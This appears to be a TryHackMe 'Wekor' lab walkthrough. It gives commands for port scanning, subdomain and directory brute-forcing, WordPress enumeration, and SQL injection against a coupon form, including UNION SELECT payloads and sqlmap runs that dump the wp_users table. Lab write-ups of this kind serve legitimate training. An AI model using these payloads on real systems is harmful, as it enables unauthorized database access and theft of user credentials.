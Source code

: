 ## TryHackMe Walkthrough - Wekor
Added wekor.thm to /etc/hosts

URL=wekor.thm
### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server domains
```bash
DNSLISTS=/usr/share/amass/wordlists/subdomains-top1mil-5000.txt
wfuzz -c -w $DNSLISTS -t30 --hw 3 -H "Host:FUZZ.${URL}" "http://${URL}"
```
### How to enumerate web server path/folder/directory
```bash
WORDLISTS=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -e -u http://site.${URL} -xphp,txt -t30 -w ${WORDLISTS}
```
### How to enumerate with wpscan
```bash
wpscan.api=$(cat ~/Downloads/wpscan.api)
wpscan --url http://site.${URL}/wordpress/ -e ap,u --api-token ${wpscan.api}
```
### How to bruteforce sql with sqlmap
Test if vulnerable to sqli
```bash
' or 1 = 1 -- -
```
Pull 
```bash
' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -
```
```bash
curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' OR 1=1 -- -" \
  -d "apply_coupon=Apply Coupon" | grep -i code

curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -" \ -d "apply_coupon=Apply Coupon" | grep -i code
```
Use SQLMAP to determine if the database can be pull
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --dump
```
Use SQLMAP to explore databases and tables
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema
```
Use SQLMAP to pull specific database and table
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump
```

## Resource
https://erichogue.ca/2021/06/Wekor

https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/Wekor%20Writeup
```
